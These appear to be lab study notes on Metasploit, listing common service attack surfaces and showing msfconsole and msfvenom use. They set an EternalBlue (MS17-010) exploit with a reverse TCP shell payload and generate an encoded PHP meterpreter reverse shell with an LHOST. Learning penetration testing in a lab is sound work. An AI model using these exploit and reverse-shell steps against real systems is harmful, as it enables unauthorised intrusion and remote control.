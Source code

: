 |HTTP|Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). |
|FTP|Could allow anonymous login and provide access to interesting files. |
|SMB|Could be vulnerable to SMB exploits like MS17-010|
|SSH|Could have default or easy to guess credentials|
|RDP|Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used. |  

### Exploit
`show payloads` command to list other commands you can use with that specific exploit.  
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads 

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
```  
Once you have decided on the payload, you can use the `set payload` command to make your choice.  
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
```

### Msfvenom  
Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.  
```
root@ip-10-10-186-44:~# msfvenom -l payloads 

Framework Payloads (562 total) [--payload ]
==================================================

    Name                                                Description
    ----                                                -----------
    aix/ppc/shell_bind_tcp                              Listen for a connection and spawn a command shell
    aix/ppc/shell_find_port                             Spawn a shell on an established connection
    aix/ppc/shell_interact                              Simply execve /bin/sh (for inetd programs)
```  
#### Output formats  
`msfvenom --list formats`: show list supported output formats  

#### Encorders  
`-e`: encoding  
```
root@ip-10-10-186-44:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
```  
